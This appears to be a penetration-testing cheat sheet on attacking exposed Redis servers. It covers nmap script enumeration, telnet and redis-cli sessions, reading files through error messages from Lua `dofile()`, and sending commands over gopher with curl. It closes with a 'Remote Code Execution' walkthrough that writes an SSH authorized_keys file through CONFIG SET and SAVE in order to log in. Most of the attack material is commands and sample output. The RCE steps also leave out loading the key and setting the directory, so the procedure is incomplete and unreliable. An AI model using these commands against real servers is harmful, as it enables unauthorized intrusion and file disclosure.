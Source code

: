 # Redis Enumeration Tools

### Nmap Enumeration
```
$ ls -lh /usr/share/nmap/scripts | grep redis
-rw-r--r-- 1 root root 2.8K Oct 12 09:29 redis-brute.nse
-rw-r--r-- 1 root root 6.9K Oct 12 09:29 redis-info.nse
```

```
$ nmap x.x.x.x -v -p 6379 --script=exampleScript1.nse,exampleScript2.nse
```

### Manual Connnection
```
$ telnet x.x.x.x 6379 
```

### echo test
```
$ telnet x.x.x.x 6379                                
Trying x.x.x.x...
Connected to x.x.x.x.
Escape character is '^]'.
echo test
$4
test
echo testing123
$10
testing123
echo "test"
$6
"test"
```

### redis-cli
```shell
> redis-cli -h x.x.x.x
x.x.x.x:6379> info                                  
# Server                                                 
redis_version:2.6.14                                     
redis_git_sha1:00000000                                  
redis_git_dirty:0                                        
redis_mode:standalone                                    
os:Linux 4.4.0-21-generic x86_64                                                                                  
arch_bits:64                                             
multiplexing_api:epoll                                   
gcc_version:5.3.1                                        
process_id:758                                           
run_id:ccdee3d16473ba7714fd06abd555f7dbaac5da3f                                                                   
tcp_port:6379                                            
uptime_in_seconds:1249993                                
uptime_in_days:14                                        
hz:10                                                    
lru_clock:312404 
```

Other enumeration commands:
`CONFIG GET pidfile`
`CONFIG GET dir`
`CONFIG GET dbfilename`
`CONFIG GET logfile`

### lua scripts

Redis can execute sandboxed Lua scripts through the "EVAL" command. `dofile()` is a command that can be used to enumerate files and directories; in older Redis version it is allowed by the sandbox.

Within redis-cli:
`EVAL "dofile('/var/')" 0`
- should return something like: `(error) ERR Error running script (call to f_de02e3f8f35b9def4742c4d51dd5b0e3e4b033e5): cannot read /var/: Is a directory ` confirming the directory exists. If not, the error would be "no such file or directory"

If the Lua script is syntactically invalid or tries to set global variables, some content of the target file will be leaked through the error messages. 

Examples:

```
EVAL "dofile('/etc/issue')" 0
(error) ERR Error running script (call to f_8a4872e08ffe0c2c5eda1751de819afe587ef07a): /etc/issue:1: '=' expected near '16.04' 
```
and
```
EVAL "dofile('/etc/lsb-release')" 0
(error) ERR Error running script (call to f_d486d29ccf27cca592a28676eba9fa49c0a02f08): /etc/lsb-release:1: Script attempted to access unexisting global variable 'Ubuntu' 
```
That gives us the info we're likely dealing with an ubuntu 16.04 machine. 

You can also interact with redis with curl and gopher:
```
# curl gopher://x.x.x.x:6379/_CONFIG%20GET%20dir --max-time 1
```

### Remote Code Execution
Source: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

Generate an ssh key:
```
$ ssh-keygen -t rsa -C "crack@redis.io"
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

Connect to redis and find a user directory with .ssh directory:
```shell
redis-cli -h x.x.x.x
x.x.x.x:6379> EVAL "dofile('/home/')" 0
(error) ERR Error running script (call to f_351f13c20f479b8ac8bde46fdc9b831d3b093b44): @user_script:1: cannot read /home/: Is a directory
x.x.x.x:6379> EVAL "dofile('/home/user/.ssh')" 0
(error) ERR Error running script (call to f_1508eef1e3b382e49753c37a8f507f0eb65ab351): @user_script:1: cannot read /home/user/.ssh: Is a directory 
```

Then write the authorized keys file and save:
```shell
x.x.x.x:6379> config set dbfilename "authorized_keys"
OK
x.x.x.x:6379> save
OK
```

Then connect via ssh:
```shell
ssh -i id_rsa user@x.x.x.x
```